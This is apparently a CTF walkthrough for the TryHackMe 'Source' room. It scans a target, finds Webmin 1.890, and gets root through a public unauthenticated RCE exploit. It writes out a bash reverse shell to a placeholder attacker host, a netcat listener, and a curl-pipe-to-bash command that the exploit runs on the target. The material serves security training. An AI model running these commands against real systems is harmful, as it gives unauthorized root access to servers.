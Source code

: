 # Source-Write-UP-NO-Metasploit
Tryhackme Source CTF Walkthrough: https://tryhackme.com/room/source  

First, we start Nmap SCAN from Attack Machine  
**root@attack# nmap -sS -sC -sV -p- -oN nmapTCP.txt $IP -v**  

**==============================================================  
NMAP RESULTS**  
PORT      STATE SERVICE VERSION  
**22** /tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)  
| ssh-hostkey:   
|   2048 b74cd0bde27b1b15722764562915ea23 (RSA)  
|   256 b78523114f44fa22008e40775ecf287c (ECDSA)  
|_  256 a9fe4b82bf893459365becdac2d395ce (ED25519)  
**10000**/tcp open  http    MiniServ 1.890 (Webmin httpd)  
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).  
|_http-favicon: Unknown favicon MD5: 7564A3DDF173FC8A1499DC41CE4CDD0A  
| http-methods:  
|_  Supported Methods: GET HEAD POST OPTIONS  
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel  

**==============================================================  
Attack Vectors**  
**22**/SSH OpenSSH 7.6p1 Ubuntu →  

**10000**/HTTP MiniServ 1.890 (Webmin httpd) →  
**[*]** Checking for an exploit for webmin version → https://github.com/foxsin34/WebMin-1.890-Exploit-unauthorized-RCE/blob/master/webmin-1.890_exploit.py

**Exploit Usage:**  
...  
WebMin 1.890-expired-remote-root  
Usage: python3 exploit.py HOST PORT COMMAND  
Ex: python3 exploit.py 10.0.0.1 10000 id  
...  

**[*]** Create a bash script (**shell.sh**) on attack box with a reverse shell inside    

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~  
#!/bin/bash  
bash -i >& /dev/tcp/<YOUR_ATTACK_BOX_IP>/1234 0>&1  
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~  

**[*]** Start a web server on attack box to host the script  

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~  
root@attack_box# python -m http.server  
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...  
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~  

**[*]** Start a listener on attack box with the same port defined in the reverse shell script  

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~  
root@attack_box# nc -nvlp 1234  
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~  

**[*]** Execute the following command toward target from attack machine  

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~  
root@attack_box# python3 webmin_1.890.py <TARGET_IP> 10000 'curl http://<YOUR_ATTACK_BOX_IP>:8000/shell.sh | bash'  
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~  

**[*]** Enjoy it!  
root@source:/usr/share/webmin/# whoami  
whoami  
root  
